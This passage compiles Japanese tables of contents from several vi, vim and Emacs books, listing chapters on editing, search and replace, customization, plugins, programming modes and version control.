        8.7 拡張正規表現
        8.8 改善された編集機能
        8.9 プログラミング支援機能
        8.10 ユニークな特色
        8.11 対応するオペレーティングシステムとソースコード

付録 A クイックリファレンス

付録 B ex コマンド
        B.1 コマンド形式
        B.2 コマンド一覧（アルファベット順）

付録 C 環境オプション
        C.1 Solaris 2.6 vi のオプション
        C.2 vim 6.0 のオプション

付録 D 問題点のチェックリスト
        D.1 ファイルオープン時の問題点
        D.2 セーブ時の問題点
        D.3 ビジュアルモード時の問題点
        D.4 vi コマンドにまつわる問題点
        D.5 削除にまつわる問題点

付録 E vi と Internet
        E.1 vi 関連 Web サイト
索　引
***** vi pocket
1 章　 vi の起動と終了
2 章　基本カーソル移動
3 章　スクロール（改ページ）
4 章　高度なカーソル移動
5 章　文字列の検索
6 章　マーキング
7 章　文字入力
8 章　文字の削除
9 章　文字を書き換える
10 章　コピー＆ペースト
11 章　左右シフト
12 章　再実行とコマンドの取り消し
13 章　文字列の検索と書き換え/ 削除
14 章　外部コマンドを実行
15 章　複数のファイルに渡る編集
16 章　 vi のカスタマイズ
17 章　そのほかの ex コマンド
Appendix
***** emacs oliry
監訳者まえがき
はじめに

1 章　 Emacs 入門
	1.1 　 Emacs へようこそ！
	1.2 　ファイルとバッファ
	1.3 　モードについて
	1.4 　 Emacs の起動
	1.5 　 Emacs の画面
		1.5.1 　ツールバー
		1.5.2 　メニュー
		1.5.3 　モードライン
		1.5.4 　ミニバッファ
	1.6 　 Emacs コマンド
	1.7 　ファイルを開く
		1.7.1 　間違ったファイルを開いたら
		1.7.2 　ファイル名の補完
		1.7.3 　ファイルの挿入と追加
		1.7.4 　デフォルトディレクトリの決め方
	1.8 　ファイルの保存
	1.9 　 Emacs の終了
	1.10 　ヘルプの表示
		1.10.1 　［ Help ］メニュー
	1.11 　まとめ
		1.11.1 　起こりがちな問題

2 章　テキストの編集
	2.1 　カーソルの移動
		2.1.1 　その他のカーソル移動方法
		2.1.2 　画面単位（またはそれ以上）でのカーソル移動
		2.1.3 　コマンドの繰り返し
		2.1.4 　表示のセンタリング
		2.1.5 　 Emacs コマンドとキー操作
	2.2 　テキストの削除
		2.2.1 　キルリング
	2.3 　マークしたテキストの削除、移動、コピー
		2.3.1 　テキストのコピー
		2.3.2 　以前に削除した内容を再挿入する
		2.3.3 　選択と貼り付け
	2.4 　クリップボードの操作
		2.4.1 　クリップボードへのテキスト入力
		2.4.2 　クリップボードからのテキスト取り出し
	2.5 　編集上のトリックとショートカット
		2.5.1 　誤った文字順の修正
		2.5.2 　大文字小文字の変換
		2.5.3 　上書きモード（ Ovwrt モード）
	2.6 　コマンドの中止と変更の取り消し
		2.6.1 　コマンドの中止
		2.6.2 　操作の取り消し（ undo ）
		2.6.3 　ファイルからバッファの内容を戻す
		2.6.4 　バックアップファイルを用いて以前の版に戻る
		2.6.5 　失った変更の復元
	2.7 　 Emacs のカスタマイズ
		2.7.1 　ツールバーを非表示にする
		2.7.2 　 CUA モードでの C-x 、 C-c 、 C-v による切り取り、コピー、貼り付け
		2.7.3 　 Text モードと auto-fill モードを自動的に有効にする
		2.7.4 　キーバインドの変更
		2.7.5 　起こりがちな問題

3 章　検索と置換
	3.1 　様々な検索方法
		3.1.1 　インクリメンタル検索
		3.1.2 　単純検索
		3.1.3 　単語検索
	3.2 　検索と置換
		3.2.1 　単純検索と置換
		3.2.2 　問い合わせ置換
		3.2.3 　問い合わせ置換（とその他の複雑なコマンド）の再実行
		3.2.4 　再帰編集
		3.2.5 　検索時の大文字小文字の区別
		3.2.6 　検索、置換作業のための正規表現
	3.3 　 Ispell を使用したスペルチェック
		3.3.1 　バッファのチェック
		3.3.2 　単語のスペルチェック
		3.3.3 　スペルの補完
		3.3.4 　 Flyspell を用いてスペルの即時チェックをする
	3.4 　単語略称機能
		3.4.1 　動的略称機能
		3.4.2 　単語略称モード
		3.4.3 　起こりがちな問題

4 章　バッファとウィンドウおよびフレームの利用
	4.1 　バッファ、ウィンドウ、フレームについて理解する
		4.1.1 　ウィンドウとフレームの違い
		4.1.2 　ウィンドウやフレームとは独立したバッファ
		4.1.3 　バッファの詳細
	4.2 　複数バッファの取り扱い
		4.2.1 　バッファの切り替え
		4.2.2 　バッファの消去
	4.3 　ウィンドウの取り扱い
		4.3.1 　ウィンドウの上下分割
		4.3.2 　ウィンドウ間の移動
		4.3.3 　ウィンドウの削除
	4.4 　フレームの操作
		4.4.1 　新しいフレームの作成
		4.4.2 　フレーム間の移動
		4.4.3 　フレームの削除と最小化
	4.5 　様々なバッファ操作
		4.5.1 　複数バッファの保存
		4.5.2 　バッファ名の変更
		4.5.3 　読み込み専用バッファ
		4.5.4 　バッファリストの取得
		4.5.5 　バッファリストの操作
	4.6 　高度なウィンドウ操作
		4.6.1 　垂直（つまり左右）に分割されたウィンドウの作成
		4.6.2 　ウィンドウ間の移動
		4.6.3 　ウィンドウの拡大と縮小
		4.6.4 　ウィンドウサイズの制限
		4.6.5 　 2 つのウィンドウのファイルを比較する
	4.7 　ブックマークの利用
		4.7.1 　ブックマークの作成
		4.7.2 　ブックマークへの移動
		4.7.3 　ブックマークの名前変更と削除
		4.7.4 　ブックマークリストの操作
		4.7.5 　ブックマークへの注記
		4.7.6 　その他のブックマークコマンド

5 章　作業環境としての Emacs
	5.1 　シェルバッファでのコマンドの実行
		5.1.1 　コマンドを 1 つずつ実行
		5.1.2 　 Shell モード
	5.2 　 Dired を用いたディレクトリ操作
		5.2.1 　ファイルの表示と編集
		5.2.2 　ファイルの削除、コピー、名前変更
		5.2.3 　ファイルの圧縮と展開
		5.2.4 　ファイルの比較
		5.2.5 　ファイルに対するシェルコマンドの実行
		5.2.6 　複数のファイルの操作
		5.2.7 　ディレクトリ間の移動
	5.3 　 Emacs での印刷の実行
	5.4 　 man ページの表示
	5.5 　時間管理ツール
		5.5.1 　カレンダの表示
		5.5.2 　ダイアリ機能
		5.5.3 　起こりがちな問題

6 章　マクロの記述
	6.1 　マクロの定義
	6.2 　よいマクロを作るコツ
	6.3 　より複雑なマクロの例
	6.4 　マクロの編集
	6.5 　マクロリング
	6.6 　マクロにキーを割り当てる
	6.7 　マクロの名前付け、保存、実行
	6.8 　複雑なマクロの作成
		6.8.1 　マクロの一時停止とキーボード入力
		6.8.2 　問い合わせの追加
	6.9 　リージョンでのマクロ実行
	6.10 　マクロの先にあるもの

7 章　簡単なテキスト整形機能と特殊編集機能
	7.1 　タブ機能
		7.1.1 　 Emacs 21 におけるタブ機能のデフォルト設定
		7.1.2 　タブ位置の変更
		7.1.3 　タブ文字そのものが必要な場合
		7.1.4 　タブ幅の変更
		7.1.5 　タブとスペース
		7.1.6 　タブをスペースに変更（あるいはその逆）
	7.2 　インデント
		7.2.1 　パラグラフのインデント
		7.2.2 　パラグラフ 1 行目のインデント
		7.2.3 　インデントされたパラグラフの行揃え
		7.2.4 　マージンの変更
		7.2.5 　行揃え接頭辞の使用
	7.3 　センタリング
	7.4 　 Outline モード
		7.4.1 　 Outline モードの開始
		7.4.2 　テキストの隠蔽と表示
		7.4.3 　テキスト隠蔽時の編集
		7.4.4 　マークの設定
		7.4.5 　セクションの昇格と降格
		7.4.6 　マイナーモード
	7.5 　矩形編集
		7.5.1 　 CUA 矩形編集
	7.6 　簡単な図の作成
		7.6.1 　 Picture モードでの作図
		7.6.2 　 Picture モードでの編集
		7.6.3 　 Artist モード（素晴らしきマウス使い）
		7.6.4 　起こりがちな問題

8 章　マークアップ言語の編集
	8.1 　コメント
	8.2 　 Font-Lock モード
	8.3 　 HTML の編集
		8.3.1 　 HTML モード
		8.3.2 　 HTML helper モードの使い方
	8.4 　 XML の記述
		8.4.1 　 SGML モードによる XML の記述
		8.4.2 　 TEI Emacs を用いた XML の編集
		8.4.3 　 nxml モードでの XHTML 記述
		8.4.4 　 psgml モードの利用
	8.5 　 TEX と LATEX の編集
		8.5.1 　カッコの対応づけ
		8.5.2 　引用符と段落
		8.5.3 　コマンドの組
		8.5.4 　テキストの TeX 処理と印刷

9 章　プログラミング言語の編集
	9.1 　統合開発環境としての Emacs
		9.1.1 　コンパイルとデバッグ
	9.2 　コード作成
		9.2.1 　言語モード
		9.2.2 　コメント
		9.2.3 　ソースコードのインデント
		9.2.4 　 etags
		9.2.5 　フォントと Font-Lock モード
	9.3 　 C モードと C++ モード
		9.3.1 　カーソル移動コマンド
		9.3.2 　インデントスタイルのカスタマイズ
		9.3.3 　 C/C++ モードのその他の機能
		9.3.4 　 C++ モードでの違い
	9.4 　 Java サポート
		9.4.1 　 Java モード
	9.5 　 JDEE （ Emacs 用 Java 開発環境）
		9.5.1 　インストールの準備
		9.5.2 　 CEDET のインストール
		9.5.3 　 ELisp ライブラリのインストール
		9.5.4 　 JDEE のインストール
		9.5.5 　 Java ツールの登録
		9.5.6 　 JDEE での編集
		9.5.7 　 JDEE でのコンパイルと実行
		9.5.8 　 JDEE でのデバッグ
		9.5.9 　 JDEE をさらに利用するために
	9.6 　 Perl サポート
		9.6.1 　 Perl に関する警告
	9.7 　 SQL サポート
		9.7.1 　前提要件
		9.7.2 　 SQL 操作モード
	9.8 　 Lisp モード
		9.8.1 　 Lisp モードにおけるインデント
		9.8.2 　 Lisp モードでのコメント
		9.8.3 　各 Emacs-Lisp モードの違い
		9.8.4 　 Lisp モードの違い
		9.8.5 　小さな Lisp コードの編集

10 章　 Emacs のカスタマイズ
	10.1 　 Custom によるカスタマイズ
		10.1.1 　 Custom の操作
		10.1.2 　共通オプション
		10.1.3 　 Custom によるカスタマイズ
		10.1.4 　 Abbrev モードの設定例
		10.1.5 　［ Options ］メニュー
		10.1.6 　 Dired の設定例
		10.1.7 　カスタマイズ変数の探し方
	10.2 　.emacs の編集
		10.2.1 　 Custom と.emacs の比較
		10.2.2 　.emacs 設定入門
		10.2.3 　.emacs ファイルの例
	10.3 　フォントと配色の変更
		10.3.1 　対話的なフォントの変更
		10.3.2 　自動のハイライト表示と色付けについての設定
		10.3.3 　 Custom によるフォントのカスタマイズ
		10.3.4 　色の変更
		10.3.5 　装飾テキストの保存
	10.4 　キーバインドのカスタマイズ
		10.4.1 　特殊キーの設定
		10.4.2 　キーバインドの解除
	10.5 　 Emacs 変数の設定
	10.6 　 Emacs Lisp パッケージの検索
	10.7 　 auto-mode のカスタマイズを行い、最初のモードを設定する
	10.8 　 Emacs を自分の思ったように動かす

11 章　 Emacs Lisp プログラミング
	11.1 Lisp 入門
		11.1.1 Lisp の基本要素
		11.1.2 関数の定義
		11.1.3 Lisp 関数を Emacs のコマンドにする
	11.2 Lisp の基本関数
		11.2.1 複文
		11.2.2 制御構文
	11.3 便利な組み込み関数
		11.3.1 バッファ、テキスト、リージョン
		11.3.2 正規表現
		11.3.3 標準ライブラリは宝の山
		11.3.4 正規表現を利用する関数
		11.3.5 その他の組み込み関数
	11.4 自動テンプレートシステムの構築
	11.5 メジャーモードのプログラミング
		11.5.1 メジャーモードのコンポーネント
		11.5.2 さらに Lisp の基本：リスト
		11.5.3 電卓モード
		11.5.4 電卓モードの Lisp コード
	11.6 既存のモードのカスタマイズ
	11.7 独自の Lisp ライブラリの構築
		11.7.1 Lisp ファイルのバイトコンパイル

12 章　バージョン管理
	12.1 　バージョン管理の使用
	12.2 　バージョン管理の概念
	12.3 　 VC による基本操作の補助集
	12.5 　 VC コマンドの概要
	12.6 　 VC モードのインジケータ
	12.7 　バージョン管理システムの選択
	12.8 　 VC のコマンド
		12.8.1 　ファイルのグループとサブツリーの取り扱い
		12.8.2 　差分のレポート
		12.8.3 　以前のリビジョンの抽出
		12.8.4 　変更履歴の表示
		12.8.5 　ファイルの登録
		12.8.6 　バージョン管理ヘッダの挿入
		12.8.7 　スナップショットの作成と復元
		12.8.8 　 ChangeLog ファイルの更新
		12.8.9 　バージョン管理下にあるファイルの名称変更
		12.8.10 　 VC が混乱したら
	12.9 　 VC のカスタマイズ
	12.10 　 VC の拡張
	12.11 　 VC の限界
	12.12 　 VC の有効活用
	12.13 　 Ediff による比較
		12.13.1 　 Ediff の起動
		12.13.2 　 Ediff によるファイル比較
		12.13.3 　相違点をマークする
		12.13.4 　 Ediff の終了
		12.13.5 　混乱状態からの回復
		12.13.6 　 Ediff についてさらに学習するために
		12.13.7 　 Ediff のカスタマイズ
		12.13.8 　 Ediff を自動的に起動する

13 章　ヘルプシステム
	13.1 　チュートリアル
	13.2 　ヘルプコマンド
		13.2.1 　詳細情報
		13.2.2 　 apropos コマンド
	13.3 　複雑なコマンドのヘルプ
	13.4 　 Emacs ドキュメントの閲覧
		13.4.1 　 Info の使用
		13.4.2 　 FAQ 、ニュース、アンチニュース
	13.5 　補完
		13.5.1 　補完のカスタマイズ

付録 A 　 Emacs の変数
付録 B 　 Emacs Lisp パッケージ
付録 C 　バグとバグフィックス
付録 D 　 Emacs 関連サイト
付録 E 　クイックリファレンス

用語集
索引
***** emacs jissen
本書に寄せて
はじめに
謝辞
本書の構成
サンプルコードのダウンロード
Emacs Lisp の構文
1 章　 Emacs の世界へようこそ
1.1 　多くの人に愛される歴史あるエディタ
ユーザが自由に機能を変更・追加できる
使いこなせば強力な味方になる
本当は難しくない Emacs
1.2 　本当のエディタにできること
エディタが本来持つべき機能
1.3 　 Emacs が Emacs であるための特徴
優れた操作性
設定の柔軟性
本体の拡張性
2 章　インストール，設定ファイルと画面の構成
2.1 　インストール
Mac へのインストール
Emacs.app を入手する
Emacs.app を自分でビルドする
Windows へのインストール
オフィシャルビルドを利用する
NTEmacs ， gnupack を利用する
Linux へのインストール
ターミナル環境へのインストール
2.2 　ディレクトリと設定ファイルの構成
各ディレクトリの役割
etc ディレクトリ
leim ディレクトリ
lisp ディレクトリ
site-lisp ディレクトリ
bin ディレクトリ
ホームディレクトリに作成される.emacs.d ディレクトリ
Windows のホームディレクトリ設定
設定ファイルの構成
2.3 　画面の構成
フレーム
ウィンドウ
フリンジ
バッファ
[Column] 　 Emacs は終了しない？
モードライン
ミニバッファ（エコーエリア）
2.4 　モード
メジャーモード
メジャーモードを選択するしくみ
メジャーモードが提供する機能
マイナーモード
マイナーモードが提供する機能
[Column] 　アラインメント機能を使ってきれいなコードを書く
3 章　基本的な操作
3.1 　コマンド
入力して実行する
キーバインドから実行する
コマンドの表記方法
キーバインドの表記方法
キーバインドの表記サンプル
プレフィックスキー（起点キー）
3.2 　起動と終了
起動する
Emacs デーモンで起動を高速化する
[Column] 　困ったときは C-g でキャンセル
デバッグモードでの起動
終了する
3.3 　ファイル（バッファ）を開く，保存する
ファイル（バッファ）を開く── C-x C-f
ファイル（バッファ）を保存する── C-x C-s
すべてのファイル（バッファ）を保存する── C-x s
バックアップファイル
オートセーブファイル
別名で保存する── C-x C-w
バッファに別ファイルを挿入する── C-x i
文字コード・改行コードを変換する── C-x RET f
文字コード・改行コードを変換して開き直す── C-x RET r
バッファを切り替える── C-x b
バッファを消去する── C-x k
3.4 　カーソル移動
キーバインド一覧
Emacs のホームポジション
3.5 　文字の入力や文字列の操作
マークとリージョン── C-SPC
コピーとカット── M-w ， C-w
行を消去する── C-k
ペーストする── C-y ， C-y M-y ……
コメントする，コメントを解除する── M-;
[Column] 　ちょっと便利なリージョン選択方法
特殊文字を入力する── C-q
アンドゥ── C-/ ， C-_， C-x u
3.6 　 Emacs の正規表現
特別な文字
3.7 　検索と置換
grep による検索
インクリメンタル検索── C-s ， C-r ， C-M-s ， C-M-r
対話置換，一括置換── M-%， C-M-%
ナローイングでバッファの一部のみを編集する
3.8 　ウィンドウ操作
ウィンドウを分割する── C-x 2 ， C-x 3
ウィンドウを移動する── C-x o
分割したウィンドウを閉じる── C-x 1 ， C-x 0
3.9 　ディレクトリ操作（ Dired ）
3.10 　キーボードマクロによる繰り返し操作
基本的な使い方
名前を付ける
再利用するために保存する
3.11 　表示の変更
文字サイズをすぐに変更する── C-x C-+ ， C-x C-=， C-x C--， C-x C-0
行の折り返し表示を変更する── M-x toggle-truncate-lines
3.12 　ヘルプの利用
info ── M-x info
ヘルプコマンド── C-h ，<f1>
よく利用するヘルプコマンド
C-h a 文字列 RET
C-h b
C-h k キーバインド
C-h w コマンド名 RET
C-h f 関数名 RET
C-h v 変数名 RET
日本語ドキュメント
4 章　設定ファイルの管理方法
4.1 　効率的な設定ファイルの作り方と管理方法
~/.emacs.d ディレクトリに設定をまとめて管理
サブディレクトリの構成
Elisp をどのように配置すべきか
Elisp 配置用のディレクトリを作成する
ロードパスを追加する
設定を反映するには
設定を分割して管理
ファイルを分ける
init-loader.el を利用する
4.2 　環境に応じた設定の分岐
OS の違いによる分岐
CUI と GUI による分岐
Emacs のバージョンによる分岐
4.3 　拡張機能の読み込み方
require と autoload の違い
require
autoload
コマンドがある場合のみ読み込む
4.4 　 Web サービスを用いたバックアップ
GitHub
~/projects/dotfiles ディレクトリに設定ファイルを移動する
シンボリックリンクを利用する
Git にコミットする
GitHub へプッシュする
Dropbox
[Column] 　エディタ採用
5 章　本体の設定
5.1 　設定を反映する方法
C-x C-e と C-j による評価
その他の評価
5.2 　キーバインドの設定
キーマップ
キーバインドの優先順位
キーバインドの割り当て
お勧めのキー操作
改行と同時にインデントする
[Column] 　 C-h をバックスペースにする
行の折り返し表示を切り替える
簡単にウィンドウを切り替える
5.3 　環境変数の設定
パスの設定
文字コードの設定
現在の文字コード設定を調べる
文字コードを指定する
ファイル名の扱い
5.4 　フレームに関する設定
モードラインに関する設定
行番号／カラム番号を表示する
ファイルサイズ，時計，バッテリー残量を表示する
タイトルバーにファイルのフルパスを表示
ウィンドウ左に行番号を表示
5.5 　インデントの設定
タブ文字の表示幅
タブ文字の利用
C ， C++ ， JAVA ， PHP などのインデント
5.6 　表示・装飾に関する設定
フェイス
表示テーマの設定
フォントの設定
英語フォントを指定する
日本語フォントを指定する
フォントの横幅を調節する
5.7 　ハイライトの設定
現在行のハイライト
対応する括弧のハイライト
5.8 　バックアップとオートセーブ
オートセーブファイルからの復元
バックアップとオートセーブの設定
バックアップとオートセーブファイルの作成先を変更する
オートセーブの間隔を変更する
5.9 　フック
自動化のしくみ
利用方法
無名関数 lambda を使う場合
関数を定義する場合
代表的なフック一覧
[Column] 　簡単な計算は*scratch*バッファで
6 章　テキスト編集をさらに効率化する拡張機能
6.1 　 Elisp をインストールしよう
標準的なインストール方法
auto-install を導入する
バイトコンパイル
byte-compile-file コマンド
シェルからバイトコンパイルする
拡張機能の自動インストール── auto-install
利用可能にする
利用する
[Column] 　拡張機能の設定方法を調べるには
Emacs Lisp Package Archive （ ELPA ）── Emacs Lisp パッケージマネージャ
Emacs 23 へ package.el をインストールする
ELPA のパッケージ一覧を取得する
パッケージ一覧から選択してインストールする
コマンドから直接インストールする
インストール先のディレクトリ構成と設定のしくみ
6.2 　統一したインタフェースでの操作
候補選択型インタフェース── Anything
インストールする
利用可能にする
ファイルを開く・バッファを切り替える
キーバインドを一覧表示する── describe-bindings
過去の履歴からペーストする── anything-show-kill-ring
moccur を利用する── anything-c-moccur
6.3 　入力の効率化
補完入力の強化── Auto Complete Mode
インストールする
利用可能にする
補完候補をポップアップ＆絞り込む
6.4 　検索と置換の拡張
検索結果のリストアップ── color-moccur
インストールする
利用可能にする
代表的なコマンド
マルチバッファを検索し結果をリストアップする
カレントバッファを検索し結果をリストアップする
moccur の結果を直接編集── moccur-edit
インストールする
利用可能にする
mocccur の結果を編集する
編集を終了したときにファイルを自動保存する
grep の結果を直接編集── wgrep
インストールする
利用可能にする
grep の結果を編集する
6.5 　さまざまな履歴管理
編集履歴の記憶── undohist
インストールする
利用可能にする
ファイルを閉じたあとにアンドゥする
アンドゥの分岐履歴── undo-tree
インストールする
利用可能にする
樹形図を見ながらアンドゥする
カーソルの移動履歴── point-undo
インストールする
利用可能にする
カーソル位置を戻す／やりなおす
6.6 　ウィンドウ管理
分割状態を管理── ElScreen
インストールする
利用可能にする
スクリーンを作成する
スクリーンを移動する
代表的なキーバインド
6.7 　メモ・情報整理
メモ書き・ ToDo 管理── howm
インストールする
利用可能にする
howm-menu を起動する
メモを書く
保存と同時に閉じる
アウトラインエディタ── org-mode
アウトライン編集機能
箇条書きなどを入力する
表を入力する
6.8 　特殊な範囲の編集
矩形編集── cua-mode
利用可能にする
各行頭に文字を追加する
各行頭の文字を削除する
連番を入力する
7 章　開発をさらに効率化する拡張機能
7.1 　各種言語の開発環境
HTML
html-mode
html-mode を利用してタグを入力する
html-mode が自動選択されるしくみ
nxml-mode
nxml-mode を HTML 編集のデフォルトモードに
nxml-mode で構文チェックする
HTML5 を nxml-mode で編集する
nxml-mode の基本設定
CSS
cssm-mode
cssm-mode の基本設定
auto-complete による補完を利用する
JavaScript
標準の js-mode
構文チェック機能を備えた js2-mode
js2-mode をインストールする
js2-mode が持つインデントの不具合を解決する
PHP
php-mode
オンラインドキュメントを利用する
php-mode のインデントを調整する
PHP 補完入力── php-completion
Perl
cperl-mode
[Column] 　便利なエイリアス
cperl-mode のインデントを調整する
yaml-mode
Perl 補完入力── perl-completion
Ruby
ruby-mode のインデントを調整する
Ruby 編集用の便利なマイナーモードを利用する
Emacs から irb を利用する── inf-ruby
Python
python-mode.el
PyCheker で構文をチェックする
そのほかの構文チェックツール── pep8 ， pyflakes ， flake8 ， pylint
C/C++
cc-mode
cc-mode 付属のマイナーモード
c-mode-common-hook とそれぞれのフック
7.2 　 Flymake による文法チェック
Flymake を利用できる言語
Perl の Flymake 設定から学ぶ
C 言語系
Makefile があれば利用し，なければ直接コマンドを実行する
XML と HTML
JavaScript
jsl をインストールする
jsl を利用可能にする
Ruby
Python
7.3 　タグによるコードリーディング
Etags 以外のタグ作成プログラム
gtags と Emacs の連携
gtags.el をインストールする
gtags-mode の使い方
ctags と Emacs の連携
ctags.el をインストールする
Anything とタグの連携
anything-for-tags コマンドを作成する
7.4 　フレームワーク専用拡張機能
Rinari ── Ruby on Rails Minor Mode for Emacs
インストールする
ナビゲーション機能でファイルを移動する
よく利用する Rinari コマンド
CakePHP Minor Mode ── emacs-cake
インストールする
ナビゲーション機能でファイルを移動する
auto-complete と連携する
7.5 　特殊な文字の入力補助
絵文字の入力補助── emoji.el
インストールする
利用する
7.6 　差分とマージ
diff による差分表示── M-x diff
Ediff による差分表示── M-x ediff
利用する
同一フレーム内にコントロールパネルを表示する
キーバインド一覧
Ediff によるパッチの適用── M-x epatch
Ediff によるマージ── M-x ediff-merge
7.7 　 Emacs からデータベースを操作
データベースへの接続
MySQL へ接続する── sql-interactive-mode
sql-mode との連携
7.8 　バージョン管理
Emacs 標準のバージョン管理機能
Subversion フロントエンド── psvn
インストールする
利用する
Git フロントエンド── Egg
インストールする
利用する
7.9 　シェルの利用
シェルコマンドの実行── M-!
カレントファイルへ結果を出力する── C-u M-!
バッファの内容を標準入力として利用する── M-|
ターミナルの利用── multi-term
インストールする
利用する
7.10 　 TRAMP によるサーバ接続
sudo ， su による編集
バックアップファイルを作成しない
7.11 　ドキュメント閲覧・検索
Emacs 版 man ビューア（ WoMan ）の利用
利用可能にする
Anything による man 検索
Appendix 　最新情報を入手するには
A.1 　開発状況
フリーソフトウェアとしての Emacs
ソースコードリポジトリ
Bazaar を利用してソースコードを取得する
Git を利用してソースコードを取得する
A.2 　開発版の試用
開発版のビルド
README を読む
configure ファイルを作成する
A.3 　新しい情報に触れるには
メーリングリスト
EmacsWiki ──世界の Emacs コミュニティ
メーリングリスト， Wiki ，その先へ
[Column] 　 Google Maps も使える Emacs
***** emacs desktop ref
はじめに
1 章　 Emacs の基本
2 章　ファイルの編集
3 章　検索置換
4 章　バッファとウィンドウの使用
5 章　作業環境としての Emacs
6 章　電子メールとニュースグループ
7 章　 Emacs とインターネット
8 章　シンプルなテキストフォーマッティングと特殊な編集
9 章　テキストのマークアップ
10 章　マクロを書く
11 章　 Emacs のカスタマイズ
12 章　プログラミングコマンド
13 章　バージョンコントロール
14 章　オンラインヘルプ
***** vim tec
Chapter01 　環境設定を改善する
1-1 　プロジェクトごとにファイルを管理する
1-2 　 project.vim を使いやすくする
1-3 　ディレクトリごとに設定ファイルを用意する
1-4 　 vimrc で外部の設定ファイルを取り込む
1-5 　選択した範囲に記述された Vim スクリプトのコードを実行する
1-6 　ファイルごとに Vim エディタのオプションを設定する
1-7 　日本語ヘルプを導入する
1-8 　ヘルプを grep 検索する
1-9 　日本語入力を簡単に行う
1-10 　ノーマルモードと挿入モードをステータスラインの色で区別する
1-11 　不可視文字を表示する
1-12 　 GUI 版の Vim 用のカラースキームを CUI 版の Vim でも使用する
1-13 　 autocmd を使用して自動的に処理を実行する
1-14 　 Vim プラグインを管理する
Chapter02 　ファイル操作を改善する
2-1 　バッファへ簡単に移動する
2-2 　 vimfiler を用いてファイル操作を行う
2-3 　一般ユーザで開いたファイルを管理者権限で保存する
2-4 　遠隔地のファイルを編集する
2-5 　バイナリファイルを編集する
2-6 　ファイル名を一括で変換する
2-7 　ファイルの文字コードを変換する
2-8 　ファイルフォーマットを変換する
2-9 　最後の編集位置にカーソルを自動的に移動させる
2-10 　カレントディレクトリを編集中のファイルと同じディレクトリに変更する
2-11 　カレントファイルのファイルパスを一部だけ変更したファイルを開く
2-12 　クラッシュ前の状態までリカバリする
2-13 　クラッシュした無名のバッファをリカバリする
2-14 　スワップファイルが見つかった時に自動的に読み取り専用でファイルを開く
2-15 　余計な Vim エディタが起動しないようにする
2-16 　ツリー形式でファイルの編集履歴を表示する
Chapter03 　比較・検索方法を改善する
3-1 　 grep 検索を使いこなす
3-2 　複数の検索パターンに同時にマッチする行を検索する
3-3 　ビジュアルモードで選択されたテキストのみを対象に置換処理を実行する
3-4 　正規表現のキーワードを無効にした検索を行う
3-5 　検索パターンにマッチしないワードを検索する
3-6 　 grep にプレビュー表示と絞り込み検索を追加する
3-7 　ローマ字入力のまま日本語をインクリメンタル検索する
3-8 　フォールディングを使用してファイルを見やすくする
3-9 　ディレクトリをブックマークして後で戻ってこれるようにする
3-10 　 Netrw のマーク機能を利用して複数ファイルを一括で編集する
3-11 　ファイル中の選択した部分のテキストだけを比較する
3-12 　ディレクトリ内のファイルを再帰的に比較する
3-13 　細かい単位で移動履歴を辿る
3-14 　 visualstar.vim でビジュアルモードで選択したテキストで検索する
3-15 　ペーストしたテキストをビジュアルモードで選択する
3-16 　マークをエディタ上で表示してジャンプする先を見やすくする
Chapter04 　作業効率を改善する
4-1 　スクラッチバッファ・一時ファイルを使用する
4-2 　ヤンク・レジスタ・コマンド履歴・検索履歴を共有する
4-3 　他のアプリケーションとテキストデータをやりとりする
4-4 　複数のテキストデータをコピーして一度に持ち運ぶ
4-5 　ヤンクしたテキストを別の Vim エディタでペーストする
4-6 　ヤンクした文字列とカーソル位置の単語を置換する
4-7 　履歴を利用して過去に実行したコマンドを再実行する
4-8 　コマンドラインでも word 単位でカーソルを移動する
4-9 　目的の単語へ素早くカーソルを移動する
4-10 　%コマンドによるジャンプ機能を拡張する
4-11 　フォントサイズを変更する
4-12 　スクリーンのサイズを切り替える
4-13 　独自のシンタックスハイライトを作成する
4-14 　インデント量の違いをハイライト表示する
4-15 　名前付きレジスタを編集に活用する
4-16 　検索結果ハイライトを ESC キーの連打でリセットする
4-17 　 speeddating.vim で日付をインクリメント操作する
4-18 　 VimCalc を使用して Vim エディタ上で計算処理を行う
Chapter05 　編集方法を改善する
5-1 　インデントを崩さないようにペーストする
5-2 　複数行の行頭に同じ文字列を挿入する
5-3 　 Vim エディタで線を引く
5-4 　 Vim エディタで図を描画する
5-5 　 0 から始まる数値を 10 進数でインクリメントする
5-6 　全角文字を半角文字に変換する
5-7 　変数名を命名規則に従って変換する
5-8 　 Vim エディタで URL エンコードをかける
5-9 　文章を右揃え・中央揃えに整形する
5-10 　選択した範囲のインデントサイズを連続して変更する
5-11 　 Align でテキストファイルを整形する
5-12 　パターンマッチした行にだけ Align の整形処理を実行する
5-13 　テキストオブジェクトを使用する
5-14 　テキストオブジェクトを括弧やダブルクォートで囲む
5-15 　テキストオブジェクト機能を拡張する
5-16 　 surround.vim の機能を繰り返し使用する
Chapter06 　開発効率を改善する
6-1 　タグファイルを使用する
6-2 　タグファイルを用いてブラウジングする
6-3 　ソースコードをコメントアウトする
6-4 　 man を参照する
6-5 　 API ドキュメントを参照する
6-6 　 QuickFix を使いこなす
6-7 　コンパイラープラグインを使用する
6-8 　 errormarker.vim でエラー行を目立たせる
6-9 　使い捨てのシェルスクリプトを無名バッファ上で組み立てる
6-10 　 quickrun.vim でプログラムを実行して結果を確認する
6-11 　 vimshell を用いて Vim からシェルのコマンドを実行する
6-12 　 vimshell を用いてインタプリタと通信する
6-13 　 Conque を用いて Vim を疑似端末とする
Chapter07 　記録の取り方を改善する
7-1 　 gist でテキストを共有する
7-2 　カレンダー機能を使用する
7-3 　テキストファイルを HTML 化する
7-4 　文字数を数える
7-5 　日本語文書をフォーマット整形する
7-6 　 autodate.vim でタイムスタンプを自動的に更新する
7-7 　 Web サービスを使用する
7-8 　 QFixHowm を導入する
7-9 　 QFixHowm でメモ作成・一覧表示・削除を行う
7-10 　 QFixHowm で「日記」や「特定ファイルと対になるメモ」を書く
7-11 　 QFixHowm でメモの全文検索と絞り込みを行う
7-12 　 QFixHowm で予定・ TODO を管理する
7-13 　 QFixHowm でアウトライン機能を使用する
7-14 　 QFixHowm で記録したメモを HTML 出力する
7-15 　 QFixHowm のメモに Markdown 形式を利用する
Chapter08 　置換処理を改善する
8-1 　複数ファイルを一括で加工する
8-2 　 qfreplace.vim で複数のファイルを一気に置換する
8-3 　マクロを利用して大規模な編集処理を実現する
8-4 　 Expression レジスタを使用して Vim スクリプトの式の値を取得する
8-5 　検索にマッチしたテキストを Vim スクリプトの式の値で置換する
8-6 　テキストファイルをソートする
8-7 　重複する行を削除する
8-8 　プログラミング言語 Perl の tr/// 演算子のような変換を行う
